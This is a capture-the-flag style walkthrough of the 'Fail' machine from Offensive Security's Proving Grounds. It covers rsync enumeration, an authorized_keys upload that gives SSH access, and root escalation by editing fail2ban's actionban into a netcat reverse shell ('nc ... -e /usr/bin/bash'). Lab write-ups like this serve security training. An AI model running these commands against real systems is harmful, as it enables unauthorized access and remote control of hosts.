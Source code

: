 ```yaml
---
description: 'Date: 08/30/22'
---
```


# "Fail" (Intermediate)

Walkthrough by: Jacob Swinsinski

“Fail” from Offensive Security’s Proving Ground Practice — “Intermediate” Difficulty

Target: 192.168.78.126

#### Recon:

```
nmapAutomator.sh -H 192.168.78.126 -t All

Running all scans on 192.168.78.126

Host is likely running Linux

                                                                             
---------------------Starting Port Scan-----------------------               
                                                                             

PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync

---------------------Starting Script Scan-----------------------
                                                                             

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

---------------------Starting Full Scan------------------------
                                                                             

PORT    STATE SERVICE
22/tcp  open  ssh
873/tcp open  rsync

No new ports
                                                                             

----------------------Starting UDP Scan------------------------

No UDP ports are open
```

* We are not left with much here. Let’s enumerate Rsync.

#### Rsync Enumeration:

[873 - Pentesting Rsync](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync)

Banner Grabbing

```
nc -nv 192.168.78.126 873                                                       Tue 30 Aug 2022 02:19:32 AM EDT
(UNKNOWN) [192.168.78.126] 873 (rsync) open
@RSYNCD: 31.0
```

Manual Communication

```
nc -nv 192.168.78.126 873                                                6.2s  Tue 30 Aug 2022 02:21:00 AM EDT
(UNKNOWN) [192.168.78.126] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox             fox home
@RSYNCD: EXIT
```

Enumerating fox

* This is the part I could not figure out.
* Upon following through the guide, we can attempt Manual Rsync with the rsync binary.

#### Manual Rsync:

Since authentication is not required, you can list a shared folder via:

```
rsync -av --list-only rsync://192.168.78.126/fox           2767ms  Tue 30 Aug 2022 02:24:43 AM EDT
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile

sent 20 bytes  received 136 bytes  104.00 bytes/sec
total size is 4,562  speedup is 29.24
```

* We see some pretty lucrative information from this.
* We see from hacktricks that we can possibly upload content using rsync.
  * For example uploading authorized\_keys file to obtain access to the box.

#### Uploading authorized\_keys file to the victim via rsync:

Generate SSH keys → Transfer to victim

```
ssh-keygen

cat id_rsa.pub | xclip -selection c

# Now that the public key is in your clipboard from xclip, create a file called authorized_keys and place the public key in there

nano authorized_keys

chmod 600 authorized_keys

rsync -av authorized_keys rsync://192.168.78.126/fox/.ssh/
```

#### Foothold Proof:

```
ssh fox@192.168.78.126 -i id_rsa
```

![Low-privileged user proof](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1cb13b47-b1d9-4319-8ee7-ef8e7fdaa61c/Untitled.png)

Low-privileged user proof

#### Privilege Escalation:

* Navigate to a writeable directory
  * /tmp
* Let’s upload LinPEAS
* We don’t see too much as a result.
* Automated approach did not help me here.

#### Manual Privilege Escalation:

1. Groups

```
groups
fox fail2ban
```

1. Using ps to find the fail2ban binary location

```
ps -ef |grep root|grep fail2ban
root     12062     1  2 19:02 ?        00:00:00 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

1. We see that it is running as root, can we take advantage of this?
2. After doing some research, I find out that we can add a variable inside the fail2ban configuration file found in /etc/fail2ban/action.d/iptables-multiport.conf
3. Variable to modify:

```
actionban = /usr/bin/nc 192.168.49.78 873 -e /usr/bin/bash
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7738eff4-0dd6-47a9-9d6f-62ee93415c2b/Untitled.png)

* We see that if we fail authentication three times via SSH, it will execute an action upon ban.
* In this case, we will execute a netcat listener.

1.  Start ncat listener:

    ```
    sudo nc -lnvp 873
    ```
2. Fail authentication via SSH 3 times to execute reverse shell:

```
ssh root@192.168.78.126
root@192.168.78.126's password: 
Permission denied, please try again.
root@192.168.78.126's password: 

Permission denied, please try again.
root@192.168.78.126's password: 
root@192.168.78.126: Permission denied (publickey,password).
```

1. We catch a shell!

#### Root Proof.txt

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ef9fd931-2ac6-4cce-b5c5-e634a7afe167/Untitled.png)
